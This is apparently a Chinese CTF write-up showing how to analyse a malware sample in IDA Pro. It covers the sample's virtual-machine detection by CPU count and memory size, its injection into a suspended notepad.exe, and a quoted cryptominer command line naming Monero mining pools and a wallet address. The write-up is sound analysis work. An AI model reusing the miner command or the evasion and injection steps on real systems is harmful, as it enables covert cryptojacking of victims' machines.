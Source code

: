 # idapro速成

## CTF_MalwareAnalyze.exe恶意程序分析

题目要求：

1. 如何检测虚拟机环境：
2. 启动的目标进程名字：
3. 目标钱包地址：
4. 描述样本的完整行为：

第一步不用想的，拿到文件后通过file来看看文件属性

```
[neko@NekoArch 6.恶意程序分析]$ file CTF_MalwareAnalyze.exe
CTF_MalwareAnalyze.exe: PE32 executable (console) Intel 80386, for MS Windows, 6 sections
```

可以看到这是各32位的程序，那么用ide.exe打开就好

![1702265524869](image/idapro速成/1702265524869.png)

打开以后默认应该是IDA View-A，也就是反汇编窗口。这道题目为了方便我们可以直接tab，切换到伪代码界面做代码审计

![1702265779713](image/idapro速成/1702265779713.png)

这里第一眼就看到这个鬼东西

```
"C:\\Windows\\System32\\notepad.exe -o node.xmr.to:18081 -a cryptonight -o stratum+tcp://xmr-usa.dwarfpool.com:80"
         "50 -u 4JUdGzvrMFDWrUUwY3toJATSeNwjn54LkCnKBPRzDuhzi5vSepHfUckJNxRL2gjkNrSqtCoRUrEDAgRwsQvVCjZbS3d2ZdUYfaKLkAbBLe",
```

这里他指向了一个门罗币的矿池，且附上了一个钱包地址

这里我们就能拿到两个答案

* 目标的钱包地址：4JUdGzvrMFDWrUUwY3toJATSeNwjn54LkCnKBPRzDuhzi5vSepHfUckJNxRL2gjkNrSqtCoRUrEDAgRwsQvVCjZbS3d2ZdUYfaKLkAbBLe
* 启动的目标进程：C:\Windows\System32\notepad.exe notepad.exe

现在还差一个，他是如何检测虚拟机环境的。首先先看开头，他设置两个变量v19与v20后后面跟了个if，将所有的程序包裹了在了if里面，可以点开sub_4010C0这个函数看看

![1702267163171](image/idapro速成/1702267163171.png)

这里程序通过GetSystemInfo获取了系统的信息，并加载到了SystemInfo，并获取了dwNumberOfProcessors，翻译过来就是处理器数量。这里程序做了一个if判定如果处理器数量小于等于2则返回一个1，此外它还判定了内存的大小。它定义了一个v3变量整数4294496257，他的单位应该是bytes可以简单算一下

```
>>> 4294496257/1024
4193844.0009765625
>>> a=4294496257/1024
>>> a/1024
4095.5507822036743
>>> b=a/1024
>>> b/1024
3.9995613107457757
>>> 
```

怎么判定的不重要，我知道它判定了就行

* 如何检测虚拟机环境：判定设备处理器数量是否小于等于2，内存是否小于4g

第三题因为我能力的问题，不得不去看了答案，答案是通过汇编审计来实现的，虽然代码没看懂但是逻辑应该大差不差

![1702350324018](image/idapro速成/1702350324018.png)

通过 `if (Wow64DisableWow64FsRedirection(&v13))`检测是否成功禁用了32位置重定向，如果成功他则会以64位的形式存储恶意代码，得到64位环境。

![1702350581270](image/idapro速成/1702350581270.png)

然后程序获取了如图所示的函数地址

那么总结而言，程序的完整行为就是

* 描述样本的完整行为：

1. 通过判定设备处理器内核是否大于2，内存是否大于4g，来判定是否处于虚拟机环境。如果是直接退出
2. 挂起notepad
3. 通过Wow64DisableWow64FsRedirection判定是否成功禁用了32位重定向，而后存储恶意代码到v5，而后获得64位环境函数地址
4. 调用获取到的函数，最后执行而已代码，此时恶意代码被以64位唤醒。

![1702351296658](image/idapro速成/1702351296658.png)
